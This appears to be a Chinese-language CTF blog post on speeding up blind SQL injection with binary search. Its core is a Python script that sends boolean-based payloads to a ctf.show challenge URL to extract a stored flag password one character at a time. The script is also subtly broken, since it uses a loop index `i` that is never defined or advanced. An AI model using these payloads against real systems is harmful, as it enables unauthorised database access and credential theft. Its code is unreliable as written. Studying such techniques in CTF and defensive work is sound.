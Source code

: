 ```yaml
---
title: "SQL 盲注二分法"
date: 2022-07-28T20:00:43+08:00
draft: false
author: "X1r0z"

tags: ['sqli','python']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```



之前一直都是整个过一遍字典... 二分法没怎么研究

二分法有一个使用条件, 就是需要查找的内容必须有序 (即按照从小到大或从大到小的顺序排序)

这里借 ASCII 码实现二分法盲注

<!--more-->

二分法时间复杂度为 `O(log2n)`

二分法查找比遍历字典查找效率高得多

```python
import requests

url = 'http://a2a7e64c-6f02-4059-84fc-3cdda760b232.challenge.ctf.show/api/index.php?id=1'

flag = ''

while True:
    min = 32
    max = 127
    
    while min < max:
        mid = (min + max) // 2
        payload = '\' and if(ascii(substr((select password from ctfshow_user where username=\'flag\'),{},1))>{},1,0) %23'.format(i,mid)
        res = requests.get(url + payload)
        if 'admin' in res.text:
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    print(flag)

```

主要说一下为什么是 `min = mid +1` 和 `max = mid`

当判断 mid 大于某个值的结果为 true 时, 这个所求值肯定是比 mid 要大的 (大于), 所以是 `mid + 1`

当结果为 false 时, 所求值应该是不超过 mid (小于等于), 所以是 `max = mid`